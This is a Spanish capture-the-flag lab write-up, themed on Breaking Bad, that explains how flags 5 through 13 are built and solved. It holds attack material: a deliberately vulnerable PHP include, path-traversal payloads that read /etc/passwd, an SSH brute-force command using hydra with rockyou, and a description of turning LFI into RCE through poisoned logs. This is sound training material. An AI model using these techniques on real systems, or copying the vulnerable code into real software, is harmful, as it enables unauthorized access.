Ch0w$up1
Nos desplazamos al directorio de lydia y verificamos la presencia de dos archivos. En este reto nos vamos a centrar en el archivo pcap:
ls -l
DeNadieSospeches.pcap nos hace sospechar que lo que debemos buscar dentro es DNS
2️⃣ Abrir el archivo con Wireshark
Lo que vamos a hacer es enviarnos ese archivo pcap a nuestra máquina de Kali para analizarlo:
scp chow@192.168.1.44:/home/lydia/DeNadieSospeches.pcap .
Usar Wireshark para explorar las consultas DNS:
dns.qry.name contains "Bandera"
O simplemente:
Dns
Haz clic derecho sobre el paquete que incluya la consulta sospechosa y selecciona:
Follow → UDP Stream
3️⃣ Confirmar la bandera oculta
Dentro de los datos del paquete se visualizará:
Bandera5:Yo_soy_el_peligro.lospolloshermanos.local
✅ El jugador debe extraer la parte entre Bandera5: y el .lospollos..., que es: Yo_soy_el_peligro
4️⃣ Alternativas desde terminal (CLI)
Si Wireshark no está disponible, puedes usar tshark:
tshark -r DeNadieSospeches.pcap -Y 'dns.qry.name contains "Bandera"' -T fields -e dns.qry.name
Esto devolverá directamente el dominio que contiene la bandera.
🧠Razonamiento técnico
Se explota el hecho de que los dominios pueden contener texto arbitrario.
Introduce al jugador a técnicas de camuflaje semántico en protocolos abiertos.
Resalta cómo se puede usar tráfico DNS legÃtimo para transferir información encubierta sin levantar alertas evidentes.
ğŸ Resultado final
Bandera 5 atrapada: 'Yo_soy_el_peligro'
ğŸ Bandera 6 – Explotación de Samba (CVE-2017-7494)
CategorÃa: Pwn / Red / Explotación Activa
Nivel: Avanzado
Flag: Usted_es_un_maldito_artista
Usuario involucrado: tyrus
📠Carpeta compartida: /home/tyrus/
🔧 Recurso Samba: [anonymous]
🯠Objetivo del reto
El jugador debe conectarse al recurso compartido Samba expuesto por el sistema y simular la explotación de la vulnerabilidad RCE (Remote Code Execution) conocida como CVE-2017-7494, que afecta a versiones de Samba anteriores a 4.6.4.
⚙️ Entorno técnico preparado
Ya está configurado el servidor Samba vulnerable sobre Ubuntu Server 14.04.6:
Versión vulnerable de Samba instalada:
sudo apt-get install samba
samba -V
Configuración del recurso compartido en /etc/samba/smb.conf:
[anonymous]
path = /home/tyrus
browsable = yes
writable = yes
guest ok = yes
guest only = yes
read only = no
force user = tyrus
Usuario y carpeta creada:
sudo useradd -m tyrus
sudo chown tyrus:tyrus /home/tyrus
Dar de alta el usuario en Samba (aunque no requiera login real):
sudo smbpasswd -a tyrus
Puedes dejar el password en blanco.
sudo chmod 775 /home/tyrus
âš ï¸ No le hemos asignado contraseña al usuario tyrus en ninguno de los pasos.
Eso significa que:
🔓 El usuario existe en el sistema, pero no puede iniciar sesión directamente (por ejemplo, vÃa ssh o consola) porque no tiene clave definida.
ğŸ› ï¸ Samba lo usará igualmente gracias a force user = tyrus, ya que ese parámetro obliga a tratar todo acceso al recurso compartido como si fuera el usuario tyrus, sin requerir autenticación.
Servicio reiniciado:
sudo service smbd restart
Bandera colocada en /var/lib/samba-flags/bandera6.txt:
echo "Bandera 6:’Usted_es_un_maldito_artista’" | sudo tee /var/lib/samba-flags/bandera6.txt > /dev/null
Script desplegado:
Creamos un script en /usr/local/bin/samba_watch.sh:
samba_watch.sh
#!/bin/bash
WATCH_DIR="/home/tyrus"
FLAG_SRC="/var/lib/samba-flags/bandera6.txt"
FLAG_DST="$WATCH_DIR/bandera6.txt"
if [ ! -f "$FLAG_SRC" ]; then
echo "[ERROR] No se encuentra la bandera en $FLAG_SRC"
exit 1
fi
echo "[+] Watcher iniciado: vigilando $WATCH_DIR ..."
while true; do
for file in "$WATCH_DIR"/*; do
if [ -f "$file" ]; then
echo "[DEBUG] Detectado archivo: $file"
if [ ! -f "$FLAG_DST" ]; then
echo "[+] Copiando bandera..."
cp "$FLAG_SRC" "$FLAG_DST"
chown tyrus:tyrus "$FLAG_DST"
chmod 644 "$FLAG_DST"
echo "[+] Bandera copiada en $FLAG_DST"
fi
fi
done
sleep 2
done
Lo hacemos ejecutable:
sudo chmod +x /usr/local/bin/samba_watch.sh
Lo lanzamos en background desde el script de instalación del reto:
nohup /usr/local/bin/samba_watch.sh >/dev/null 2>&1 &
Esto ya queda corriendo como proceso independiente. Cuando alguien suba un archivo al recurso Samba, la bandera aparecerá en /home/tyrus.
Detalles:
nohup → evita que el proceso muera cuando cierres la sesión.
>/dev/null 2>&1 → manda toda la salida estándar y de error a la nada (silencio total).
& → lo deja corriendo en segundo plano.
El [1] significa que es el primer proceso en segundo plano que tu shell ha lanzado en esta sesión.
El 1554 es el PID (Process ID) asignado al script samba_watch.sh.
Es decir: ahora mismo el watcher está ejecutándose en background, escuchando cambios en /home/tyrus.
✅ Esto significa que el script está activo y deberÃa detectar archivos nuevos en /home/tyrus.
Persistencia en el scrip:
El script (/usr/local/bin/samba_watch.sh) no se arranca solo “por arte de magia†al encender el sistema… a menos que alguien lo haya configurado como servicio de arranque (systemd, init.d o similar).
Si ahora mismo lo ejecutamos nosotros a mano, al reiniciar dejará de estar en memoria y no vigilará nada hasta que lo lancemos otra vez.
Si quieres que esté siempre activo, puedes crear un servicio systemd para que se levante en cada arranque.
En Ubuntu Server 14.04 no tienes systemctl de serie, porque esa versión usa Upstart como sistema init, no systemd2.
Esto implica que:
Los comandos systemctl start/stop/enable no funcionarán a menos que instales y configures systemd manualmente (lo cual no suele ser recomendable en 14.04).
Para arrancar servicios automáticamente en cada inicio, en 14.04 se usan scripts en /etc/init/ (formato Upstart) o el comando update-rc.d para servicios tipo SysV. Lo haremos de la misma forma que con el reto de nc, modificando el archivo rc.local:
Y después recuerda:
sudo chmod +x /etc/rc.local
sudo chmod +x /usr/local/bin/samba_watch.sh
para que ambos sean ejecutables al arranque.
🧪 Pasos para capturar la bandera
1️⃣ Descubrir el recurso compartido
Usar herramientas como smbclient o enum4linux:
smbclient -L //192.168.1.44/ -N
Esto listará el recurso [anonymous].
2️⃣ Conectarse como invitado
smbclient //192.168.1.44/anonymous -N
Esto te permitirÃa subir archivos al directorio /home/tyrus.
3️⃣ Simular la explotación (sin ejecución real)
Dado que el entorno es simulado, no se sube un .so malicioso como en la CVE original. Pero puedes probar el acceso y la capacidad de escritura, demostrando que la configuración permitirÃa explotación si el servicio fuera interpretado por dlopen().
En un entorno real, el exploit consistirÃa en:
Subir un archivo .so con una función tipo init_module
Ejecutar la librerÃa como si fuera un módulo
Obtener ejecución remota
Podemos probar la funcionalidad subiendo cualquier archivo. Subimos por ejemplo un archivo de texto llamado prueba.txt:
put prueba.txt
El watcher detecta la creación de prueba.txt y copia la bandera desde /var/lib/samba-flags/bandera6.txt a /home/tyrus/bandera6.txt.
4️⃣ Verificación de bandera
Una vez que el jugador ha demostrado conocimiento y habilidad para interactuar con el recurso, puede descargar la bandera desde sistema:
get bandera6.txt

🧠Razonamiento técnico
La bandera demuestra comprensión de una explotación real de Samba.
Enseña cómo una configuración aparentemente simple puede abrir la puerta a RCE.
Refuerza prácticas de análisis y enumeración de recursos SMB en entornos CTF y pentest.
ğŸ Resultado final
Bandera 6 atrapada: 'Usted_es_un_maldito_artista'
ğŸ Bandera 7 – Fuerza Bruta sobre Credenciales SSH Débiles
CategorÃa: Pwn / Red / Credenciales
Nivel: Básico - Medio
Flag: Mejor_llama_a_Saul
Usuario objetivo: saul
Contraseña insegura: XXXXXX
Archivo clave: /home/saul/bandera7.txt
🯠Objetivo del reto
El jugador debe identificar un servicio SSH activo y usar fuerza bruta o diccionario básico para adivinar la contraseña débil del usuario saul. Tras el acceso, deberá buscar una bandera en su directorio personal.
⚙️ Entorno técnico preparado
Una vulnerabilidad de SSH es un fallo en el protocolo, la implementación o la configuración del servicio SSH (Secure Shell) que un atacante puede explotar para obtener acceso no autorizado a un sistema. A diferencia de la vulnerabilidad de Samba, que es un fallo de software especÃfico, las vulnerabilidades de SSH en un CTF suelen centrarse en la configuración.
¿Cómo funciona una vulnerabilidad de SSH?
Las vulnerabilidades de SSH que son comunes en un entorno CTF no suelen ser fallos de código complejos, sino más bien malas configuraciones o malas prácticas de seguridad. Estas son las más comunes:
Credenciales débiles (ataque de fuerza bruta): Si el servidor SSH permite la autenticación con contraseña y un usuario tiene una contraseña muy sencilla, un atacante puede usar un diccionario o un ataque de fuerza bruta para adivinarla. Esta es la forma más básica y común de explotar un servidor SSH en un CTF.
Permitir el inicio de sesión como root: Por defecto, la mayorÃa de las configuraciones de SSH modernas no permiten que el usuario root inicie sesión directamente. Esto se hace por seguridad.
Si un servidor permite que root inicie sesión, y un atacante adivina la contraseña de root (o si la contraseña es débil), obtendrá control total sobre la máquina en un solo paso.
Claves SSH débiles o comprometidas: A veces, un reto puede implicar que el atacante encuentre una clave privada SSH que se dejó en un lugar inseguro (por ejemplo, en un recurso compartido de red o en un directorio web accesible). Si el servidor SSH confÃa en esa clave pública para el inicio de sesión, el atacante puede usar la clave privada para acceder al sistema.
Permisos incorrectos: Una configuración incorrecta en los permisos de los archivos de configuración de SSH (~/.ssh/authorized_keys o /etc/ssh/sshd_config) puede permitir que un usuario de bajo privilegio los modifique para permitir el inicio de sesión de un atacante.
La máquina está preparada de la siguiente manera:
Se ha instalado el servidor SSH:
sudo apt-get install openssh-server
El usuario vulnerable saul fue creado:
sudo useradd -m -s /bin/bash saul
echo "saul:XXXXXX" | sudo chpasswd
El archivo de configuración del servicio permite autenticación por contraseña:
PasswordAuthentication yes
PermitRootLogin no
Bandera colocada en su directorio:
echo "Bandera7:’Mejor_llama_a_Saul’" > /home/saul/bandera7.txt
sudo chown saul:saul /home/saul/bandera7.txt
Servicio reiniciado:
sudo service ssh restart
Pista preparada
Dentro del usuario chow hay un archivo de texto oculto:
🧪 Pasos para capturar la bandera
1️⃣ Encontrar la pista
En alguna de las ocasione que hemos realizado una conexión SSH usando la contraseña de chow:
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
Ch0w$up1
DeberÃamos de haber listado el directorio para que muestre también los archivos ocultos:
ls -la
Ahà habrÃamos visto un fichero que se llama: .fring_to_chow_request.txt
y que contiene el siguiente texto:
From: fring@company.com
To: chow@company.com
Subject: Solicitud sobre contraseñas de Saul
Date: Fri, 22 Aug 2025 10:34:00 +0000
Hola Chow,
Por favor, dile a Saul que deje de usar contraseñas débiles.
Esto se ha convertido en un riesgo de seguridad para todos.
Gracias,
Fring

Esto nos debe hacer pensar que la contraseña de saul es lo suficientemente débil como para probar a descifrarla por fuerza bruta.
2️⃣ Fuerza bruta o intento directo
Como la contraseña parece ser extremadamente débil, probaremos un ataque de fuerza bruta contra el usuario saul, usando hydra y el diccionario rockyou.txt:
hydra -L /home/kali/usuario.txt -P /home/kali/rockyou.txt ssh://192.168.1.44
Premio, hydra ha encontrado en rockyou la contraseña que realmente era débil de saul: 123456
Intentamos conectarnos con ese usuario:
ssh saul@192.168.1.44
Contraseña:
123456
✅ Conexión exitosa.
3️⃣ Buscar la bandera
Una vez dentro:
ls -l
Tenemos un archivo bandera7.txt y un directorio llamado evidencias que es parte de otro reto. Mostramos el contenido de la bandera:
cat bandera7.txt
Salida esperada:
Bandera7:’Mejor_llama_a_Saul’
🧠Razonamiento técnico
permitir accesos crÃticos.
Refuerza la importancia de deshabilitar autenticación por contraseña o usar claves fuertes.
Simula un escenario realista para pruebas de pentesting y auditado.
El reto muestra cómo una configuración insegura de SSH puede
ğŸ Resultado final
Bandera 7 atrapada: 'Mejor_llama_a_Saul'
ğŸ Bandera 8 – Certificado TLS con Bandera Oculta en CommonName
CategorÃa: Red / Forense / CriptografÃa
Nivel: Avanzado
Flag: El_miedo_es_el_verdadero_enemigo
Usuario involucrado: victor
Contraseña: XXXXXXXX
Archivo clave: TodoLoSabe.pcap
📠Ruta esperada: /home/victor/TodoLoSabe.pcap
🯠Objetivo del reto
El jugador debe analizar tráfico TLS simulado en un archivo .pcap. Entre sesiones con certificados falsos y ruido digital, hay uno que contiene la bandera como parte de su CommonName (CN) y SubjectAltName en un certificado TLS embebido.
⚙️ Entorno técnico preparado
Se ha generado este .pcap con un script en Python que:
Simula múltiples sesiones TCP hacia el puerto 443
Inserta un certificado TLS falso en formato DER
En uno de esos certificados, el CommonName contiene:
Bandera8:{El_miedo_es_el_verdadero_enemigo}
🧪 Pasos para capturar la bandera
1️⃣ Conexión SSH usando la cuenta de chow
Ejecuta el cliente SSH:
Cuando te pida la contraseña, introduce
Ch0w$up1
Nos desplazamos al directorio de victor y verificamos la presencia de un archivo pcap.
ls -l
TodoLoSabe.pcap nos hace sospechar que lo que debemos buscar dentro es TLS
2️⃣ Abrir el archivo con Wireshark
Lo que vamos a hacer es enviarnos ese archivo pcap a nuestra máquina de Kali para analizarlo:
scp chow@192.168.1.44:/home/victor/TodoLoSabe.pcap .
File → Open → TodoLoSabe.pcap
Filtra sesiones TLS simuladas:
tcp.port == 443
3️⃣ Buscar la bandera en los certificados
Método rápido:
tcp contains "Bandera8"
Luego haz clic derecho sobre el paquete → Follow TCP Stream
Dentro del payload raw se verá:
Bandera8:{El_miedo_es_el_verdadero_enemigo}
✅ El jugador debe extraer solo lo que está entre las llaves como la bandera final.
4️⃣ Alternativa desde terminal
Buscar directamente el CN en el contenido binario.
Ya que el certificado está en formato DER, puedes buscar directamente la cadena "Bandera" en el archivo:
strings TodoLoSabe.pcap | grep Bandera
Esto ignora el protocolo y busca cualquier texto legible en el archivo.
🧠Razonamiento técnico
Se analiza tráfico cifrado donde el certificado incluye datos falsos pero interpretables.
Introduce al jugador en técnicas de esteganografÃa en campos de autenticación TLS.
Requiere conocimiento de estructuras DER, PKI y uso avanzado de Wireshark o tshark.
ğŸ Resultado final
Bandera 8 atrapada: 'El_miedo_es_el_verdadero_enemigo'
ğŸ Bandera 9 – Servicio Netcat Escuchando en Puerto Oculto
CategorÃa: Red / Reconocimiento / Explotación
básica
Nivel: Medio
Flag: Estoy_en_el_negocio_del_imperio
Servicio escondido: Netcat en puerto 31337
Archivo clave: /opt/bandera9.txt
📃 Contenido del archivo:
Bandera9: ’Estoy_en_el_negocio_del_imperio’
🯠Objetivo del reto
El jugador debe realizar una enumeración de puertos completa para descubrir que un servicio está escuchando en el puerto 31337. Al conectarse, el servicio transmitirá el contenido del archivo de la bandera a través de Netcat.
⚙️ Entorno técnico configurado
Un "puerto oculto" es una técnica común en los retos CTF para esconder un servicio vulnerable en un puerto poco convencional, lo que obliga al atacante a realizar una enumeración exhaustiva. En lugar de usar servicios estándar como HTTP en el puerto 80 o SSH en el 22, se configura el servicio en un puerto alto y aleatorio (por ejemplo, 1337, 4444, 8888, 31337, etc.).
¿Cómo funciona la técnica del puerto oculto?
La idea principal es que las herramientas de escaneo de puertos por defecto, como Nmap, suelen escanear un subconjunto de los puertos más comunes (los 1000 puertos más conocidos). Si un servicio vulnerable no está en uno de esos puertos, un escaneo superficial lo pasará por alto.
El jugador debe realizar un escaneo completo de todos los puertos (-p 1-65535) para encontrar el servicio oculto. Una vez que lo encuentra, el reto se vuelve similar a cualquier otro, pero el paso de enumeración inicial es crucial y deliberadamente más difÃcil.
Para crear este tipo de reto, puedes usar herramientas ligeras como Netcat
Se ha creado el archivo de bandera:
echo "Bandera9: ’Estoy_en_el_negocio_del_imperio’" > /opt/bandera9.txt
Se ha iniciado Netcat en modo escucha:
nc -lvp 31337 < /opt/bandera9.txt
nc: El comando Netcat.
-l: Pone a Netcat en modo "oyente" (listener).
-v: Modo verboso (opcional, muestra información de la conexión).
-p 31337: Especifica el puerto para escuchar.
< /opt/bandera9.txt: Redirige el contenido del archivo de la bandera a Netcat. Cuando un cliente se conecte, Netcat le enviará el contenido del archivo y luego se cerrará.
El comando fue integrado en /etc/rc.local para persistencia tras reinicio:
El comando nc -lvp 31337 < /opt/bandera9.txt se ejecuta en primer plano, lo que significa que:
🧠Estará escuchando mientras la terminal esté abierta y el proceso siga vivo.
🔄 Si reinicias la máquina, el proceso desaparecerá (no persistirá tras el reinicio).
📡 Netcat no tiene comportamiento tipo “servicio†por sà mismo.
¿Cómo hacer que siga activo tras el reinicio?
Usar un script de inicio en /etc/rc.local (si está disponible)
nc -lvp 31337 < /opt/bandera9.txt &
exit 0
Verificado que no hay reglas de iptables bloqueando el tráfico entrante:
Este comando te mostrará todas las reglas actuales, incluyendo:
sudo iptables -L -n -v
Las polÃticas por defecto de las cadenas (INPUT, OUTPUT, FORWARD)
Los puertos bloqueados o permitidos
💡Busca si hay alguna regla que afecte el puerto 31337 en la cadena INPUT.
PolÃticas de INPUT, FORWARD, OUTPUT: todas en ACCEPT
Lo que muestra la imagen es muy claro: todas las cadenas (INPUT, FORWARD, OUTPUT) tienen la polÃtica ACCEPT y no hay reglas configuradas que interfieran. Eso significa:
🔓 No hay cortafuegos activo bloqueando el puerto 31337
✅ Todo el tráfico entrante, saliente y reenviado está siendo aceptado por defecto
🧪 Pasos para capturar la bandera
1️⃣ Escaneo completo de puertos
El jugador debe usar nmap sin limitación de puertos:
nmap -p 1-65535 192.168.1.44
✅ Esto revelará el puerto 31337 como abierto.
2️⃣ Conexión al puerto oculto
Usando Netcat:
nc 192.168.1.44 31337
Al conectarse, Netcat enviará el contenido de la bandera automáticamente.

3️⃣ Resultado esperado en la terminal
Bandera9: ’Estoy_en_el_negocio_del_imperio’
✅ ¡Flag obtenida directamente desde el servicio clandestino!
🧠Razonamiento técnico
Refuerza la importancia del reconocimiento en profundidad (no limitar escaneos a puertos conocidos).
Expone cómo Netcat puede utilizarse para transferir información de manera discreta.
Introduce el concepto de persistencia de servicios mediante scripts de arranque como rc.local.
ğŸ Resultado final
Bandera 9 atrapada:
'Estoy_en_el_negocio_del_imperio'
ğŸ Bandera 10 – Vulnerabilidad LFI en Aplicación PHP
CategorÃa: Web Exploitation / Local File
Inclusion
Nivel: Intermedio
Flag: Usted_no_es_una_persona_discreta
Archivo vulnerable: ver.php
📠Ruta esperada: http://<IP_CTF>/ver.php
📄 Bandera alojada en: /var/www/bandera10.txt
🯠Objetivo del reto
El jugador debe descubrir que el script PHP ver.php permite incluir archivos arbitrarios en el servidor sin validación, lo que le permitirá leer archivos sensibles como /etc/passwd o incluso acceder directamente al archivo que contiene la bandera.
⚙️ Entorno técnico configurado
La vulnerabilidad LFI (Local File Inclusion) ocurre cuando una aplicación web permite que un usuario incluya un archivo en el servidor, generalmente a través de un parámetro en la URL, sin validar o sanear adecuadamente la entrada. Un atacante puede manipular este parámetro para cargar archivos fuera del directorio esperado de la aplicación, como /etc/passwd o un archivo de logs que contenga su propio código malicioso.
¿Cómo funciona la vulnerabilidad LFI?
Imagina que una página web utiliza una URL como http://ejemplo.com/pagina.php?file=contacto.html para cargar diferentes páginas. El script pagina.php toma el valor del parámetro file y lo incluye directamente en el código de la página, por ejemplo, usando la función include() de PHP.
Si un atacante cambia la URL a:
http://ejemplo.com/pagina.php?file=../../../../etc/passwd
el servidor intentará cargar el archivo /etc/passwd. Los ../ (puntos y barra) le permiten "subir" en la estructura de directorios, escapando de la carpeta web. Si no hay una validación adecuada, el contenido del archivo de contraseñas se mostrará en la página.
La explotación de LFI se puede usar para:
Leer archivos sensibles: Acceder a archivos como /etc/passwd para obtener nombres de usuario o /etc/apache2/apache2.conf para ver la configuración del servidor web.
Ejecución remota de código (RCE): La técnica más avanzada para un CTF. El atacante puede inyectar código PHP malicioso en un archivo del sistema al que tiene acceso (por ejemplo, un archivo de log de Apache), y luego usar LFI para "incluir" ese archivo, lo que ejecuta el código PHP.
Configuración implementada en la máquina
Servidor web Apache con PHP activo:
sudo apt-get install apache2 php5 libapache2-mod-php5
Archivo vulnerable creado en /var/www/html/ver.php:
<?php
$file = $_GET['file'];
include($file);
?>
Bandera colocada fuera del directorio web:
echo "Bandera10:’Usted_no_es_una_persona_discreta’" > /var/www/bandera10.txt
sudo chown root:root /var/www/bandera10.txt
sudo chmod 400 /var/www/bandera10.txt
🧪 Pasos para capturar la bandera
1️⃣ Localizar la pista
En el código fuente de la página nosotros.html encontramos una pista que nos dice:
Esto nos hace pensar que se trata de una vulnerabilidad de LFI:
http://192.168.1.44/ver.php?file=nosotros.html
Aquà es donde el jugador puede deducir que puede manipular el parámetro file.
ver.php?file=
2️⃣ Probar con archivo sensible del sistema
Usar:
http://192.168.1.44/ver.php?file=../../../../etc/passwd
✅ Si aparece contenido, se confirma la vulnerabilidad LFI.
3️⃣ Apuntar al archivo de la bandera
Ya que la bandera está en /var/www/, y ver.php está en /var/www/html/, se puede acceder con:
http://192.168.1.44/ver.php?file=../bandera10.txt
Esto sube un nivel y accede al archivo directamente.
http://192.168.1.44/ver.php?file=/var/www/bandera10.txt
4️⃣ Resultado esperado en navegador
Bandera10:’Usted_no_es_una_persona_discreta’
🧠Razonamiento técnico
El reto muestra los peligros de usar include() sin sanitizar entradas.
Introduce técnicas de path traversal (../) para escapar de la carpeta web.
Simula un entorno real de pentesting con PHP vulnerable.
🔧 Validación
El jugador puede verificar vulnerabilidad desde terminal con curl:
curl "http://192.168.1.44/ver.php?file=../bandera10.txt"
ğŸ Resultado final
Bandera 10 atrapada:
'Usted_no_es_una_persona_discreta'
ğŸ Bandera 11 – Forense de PDF con Códigos de Ubicación
CategorÃa: Forense / CriptografÃa Posicional /
Document Analysis
Nivel: Intermedio
Flag reconstruida: blue_sky_save_family
Código original: 8:15:3_5:5:11_48:13:3_68:7:6
📄 Archivo clave: PDF del guion Breaking Bad 312 – Half
Measures
📠Carpeta alojada en: /var/www/html/Privado
🯠Objetivo del reto
El jugador debe analizar el contenido del PDF original del episodio 312 de Breaking Bad, localizar palabras especÃficas en distintas páginas y lÃneas, y reconstruir una frase significativa que representa la bandera.
Se ha creado una bandera CTF a partir de una frase oculta en el PDF del guion de "Breaking Bad: Half Measures" (Episode 312). La bandera debe ser una secuencia de códigos Página:LÃnea:Palabra para cada palabra de la frase, y la frase debe estar compuesta por palabras de distintas páginas del documento.
Proceso de Ideación de la Frase:
Temática: Se buscó una frase que tuviera relevancia para la serie "Breaking Bad" y que pudiera construirse con palabras clave dispersas en el guion.
Elementos Clave Considerados:
"Blue Sky": El nombre del producto distintivo de Walter White.
"Family": La motivación principal de Walter.
Verbos de acción/propósito: Como "saves", "protects", etc., para conectar los elementos.
Frase Elegida: "Blue Sky saves family." Esta frase cumple con el requisito de tener palabras en diferentes secciones y encapsula la dualidad del negocio y la motivación de Walter.
Búsqueda y Localización de Palabras en el PDF:
Se realizó un escaneo del contenido del PDF para encontrar las ubicaciones exactas de cada palabra de la frase, siguiendo el formato Página:LÃnea:Palabra.
Palabra 1: "Blue"
Código: 8:15:3 (Página 8, LÃnea 15 de esa página, Palabra 3)
Palabra 2: "Sky"
Código: 5:5:11 (Página 5, LÃnea 5 de esa página, Palabra 11)
Palabra 3: "save"
Código: 48:13:3 (Página 48, LÃnea 13 de esa página, Palabra 3)
Palabra 4: "family."
Código: 68:7:6 (Página 68, LÃnea 7 de esa página, Palabra 6)
Construcción de la Bandera 11:
Combinando los códigos de las palabras en el orden de la frase "blue sky save family", la bandera resultante es:
8:15:3 5:5:11 48:13:3 68:7:6
8:15:3_5:5:11_48:13:3_68:7:6
Bandera 11: ‘8:15:3_5:5:11_48:13:3_68:7:6’
Creamos un archivo llamado bandera11.txt en el que colocamos el código a modo de pista:
Y este archivo bandera11.txt junto con el PDF del Episodio 312 y otros archivos para “despistar†los subimos al directorio /var/www/html en una carpeta llamada Privado
🧪 Pasos para capturar la bandera
1️⃣ Localizar el archivo PDF
Accede al servidor web:
http://192.168.1.44/Privado/
Allà estará el PDF junto a otros archivos señuelo, como:
Los Pollos Hermanos Menú
certificado de higiene
manual del empleado
2️⃣ Obtener el código de ubicación
Usar el archivo bandera11.txt que incluye la secuencia:
8:15:3_5:5:11_48:13:3_68:7:6
Esto representa:
Página 8, LÃnea 15, Palabra 3 → "Blue"
Página 5, LÃnea 5, Palabra 11 → "Sky"
Página 48, LÃnea 13, Palabra 3 → "save"
Página 68, LÃnea 7, Palabra 6 → "family."
3️⃣ Abrir el PDF y navegar por ubicaciones
Usa un visor con capacidad de copiar texto por lÃnea, como PDFStudio, Evince, o Okular.
Alternativamente, desde terminal puedes extraer texto:
pdftotext half_measures_312.pdf - | les
Luego contar páginas manualmente, lÃneas y palabras.
4️⃣ Reconstruir la bandera
Unir las palabras en orden:
Blue Sky save family
Y transformarla en formato CTF:
blue_sky_save_family
🧠Razonamiento técnico
Introduce al jugador en análisis posicional de texto plano en PDFs.
Simula extracción forense real a partir de documentos públicos.
Refuerza habilidades de scripting, OCR, y decodificación contextual.
🔧 Tip adicional
El jugador puede automatizar la extracción con Python y bibliotecas como PyPDF2, pdfminer, o pdfplumber.
ğŸ Resultado final
Bandera 11 atrapada: 'blue_sky_save_family'
ğŸ Bandera 12 – Linux Fundamentals / Warm-up: Breaking the TXT
CategorÃa: Linux Fundamentals / Warm-up
Nivel: Básico
Flag: Soy_el_hombre_que_mató_a_Gus_Fring
Usuario involucrado: lydia
📠Carpeta clave: /home/lydia/
📄 Archivos clave:
bndr12.txt – archivo visible al jugador
🯠Objetivo del reto
El jugador debe descubrir que un archivo con extensión .txt puede ser ejecutable en Linux si contiene un shebang y recibe permisos de ejecución.
Al ejecutar el fichero, este desencadena un script oculto que genera la bandera final en el mismo directorio.
Entorno preparado
Utilizamos un script para desplegar el reto.
🔧 Script de instalación
#!/bin/bash
# Instalador reto CTF "Bandera12"
USER_HOME="/home/lydia"
CTF_FILE="bndr12.txt"
FLAG_FILE="bander12.txt"
SECRET_SCRIPT=".generar_bandera.sh"
# 1. Crear archivo de pista estilo mexicano / Breaking Bad
sudo mkdir -p "$USER_HOME"
sudo bash -c "cat > '$USER_HOME/$CTF_FILE' <<'EOF'
#!/bin/bash
bash \"\$(dirname \"\$0\")/$SECRET_SCRIPT\"
EOF"
# 2. Crear script oculto que genera la bandera
sudo bash -c "cat > '$USER_HOME/$SECRET_SCRIPT' <<'EOF'
#!/bin/bash
echo \"Bandera12: 'Soy_el_hombre_que_mató_a_Gus_Fring'\" > \"\$(dirname \"\$0\")/$FLAG_FILE\"
chmod 644 \"\$(dirname \"\$0\")/$FLAG_FILE\"
echo '¡Orale, compa! Aquà está la bandera... pero recuerda, en Albuquerque nada es gratis. Bandera12: ‘Soy_el_hombre_que_mató_a_Gus_Fring’'
EOF"
# 3. Permisos
sudo chmod 755 "$USER_HOME/$SECRET_SCRIPT"
sudo chmod +x "$USER_HOME/$CTF_FILE"
sudo chown lydia:lydia "$USER_HOME/$CTF_FILE" "$USER_HOME/$SECRET_SCRIPT"
# 4. Añadir pista al principio de bndr12.txt
sudo bash -c "echo \"// Eh, socio... dicen que si a este papelito le das poder de ejecución, va a cantar la verdad más rápido que Heisenberg cocinando azul.\" | cat - '$USER_HOME/$CTF_FILE' > '$USER_HOME/${CTF_FILE}.tmp' && mv '$USER_HOME/${CTF_FILE}.tmp' '$USER_HOME/$CTF_FILE'"
echo "Reto instalado correctamente en $USER_HOME"
📜 Dinámica breve
En /home/lydia habrá un archivo bndr12.txt.
Si el jugador lo hace ejecutable y lo lanza (chmod +x bndr12.txt && ./bndr12.txt), internamente llamará a un script oculto que generará bander12.txt con la bandera final.
Aunque el archivo tenga extensión .txt, en Linux lo que importa es que tenga el shebang (#!/bin/bash, por ejemplo) y permisos de ejecución (chmod +x). El sistema lo ejecutará si lo invocas con ./nombre.
🧪 Pasos para capturar la bandera
Conexión SSH usando la cuenta de chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
Ch0w$up1
Nos dirigimos al directorio de lydia:
/home/lydia
y vemos bndr12.txt y el archivo pcap de la bandera 5.
Lo leemos:
cat bndr12.txt
// Eh, socio... dicen que si a este papelito le das poder de ejecución, va a cantar la verdad más rápido que Heisenberg cocinando azul.
No nos muestra la bandera directamente, nos da una pista. Esta pista nos debe hacer pensar en “Dar permisos de ejecución†→ al archivo bndr12.txt y ejecutarlo:
chmod +x bndr12.txt
./bndr12.txt
Se genera bander12.txt con la bandera.
✅ Ahora sà muestra la bandera:
Bandera12: ‘Soy_el_hombre_que_mató_a_Gus_Fring’
🧠Razonamiento técnico
En Linux la extensión de un archivo es irrelevante: lo que define si un fichero se puede ejecutar es:
Que tenga un shebang (#!/bin/bash, #!/usr/bin/python, etc.).
Que tenga permisos de ejecución (chmod +x archivo).
El jugador debe razonar que, aunque se trate de un archivo .txt, puede contener un script.
Al darle permisos (chmod +x bndr12.txt) y ejecutarlo (./bndr12.txt), el fichero actúa como launcher, invocando a un script oculto en el mismo directorio (.generar_bandera.sh).
Dicho script oculto es el que realmente escribe la bandera en un nuevo archivo (bander12.txt).
El reto pone a prueba el entendimiento de:
Permisos en Linux (lectura, escritura, ejecución).
Diferencia entre extensión y funcionalidad de un archivo.
Descubrimiento de scripts ocultos y ejecución indirecta.
Lógica de “wrapper scripts†que actúan como intermediarios.
ğŸ Resultado final
Bandera 12 atrapada: 'Soy_el_hombre_que_mató_a_Gus_Fring'
ğŸ Bandera 13 – Análisis Forense de Registro auth.log
CategorÃa: Forense / Logs / OSINT
Nivel: Intermedio
Flag: Un_hombre_debe_tener_limites
Usuario involucrado: mike
Contraseña: XXXXXXXX
📠Carpeta clave: /home/mike/logs
📄 Archivo clave: auth.log
🯠Objetivo del reto
El jugador debe revisar un archivo auth.log con apariencia legÃtima, encontrar una entrada manipulada, y extraer la bandera incrustada como si fuera una nota oculta en un evento de autenticación exitoso.
ğŸ› ï¸ Entorno técnico configurado
Se ha escondido un archivo auth.log en una carpeta llamada logs dentro del usuario mike. Esta no es una ubicación donde por defecto se almacenen los archivos auth.log.
